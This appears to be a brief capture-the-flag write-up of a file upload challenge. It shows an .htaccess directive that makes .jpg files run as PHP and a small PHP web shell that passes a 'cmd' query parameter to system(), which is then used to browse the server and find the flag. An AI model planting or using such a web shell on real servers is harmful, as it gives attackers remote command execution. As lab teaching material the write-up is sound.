 # Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

![i2](13.jpg)

After uploading an image, we see it in uploads/

![i2](14.jpg)

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`
<?php
if(isset($_GET["cmd"])) 
        system($_GET["cmd"]);
?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
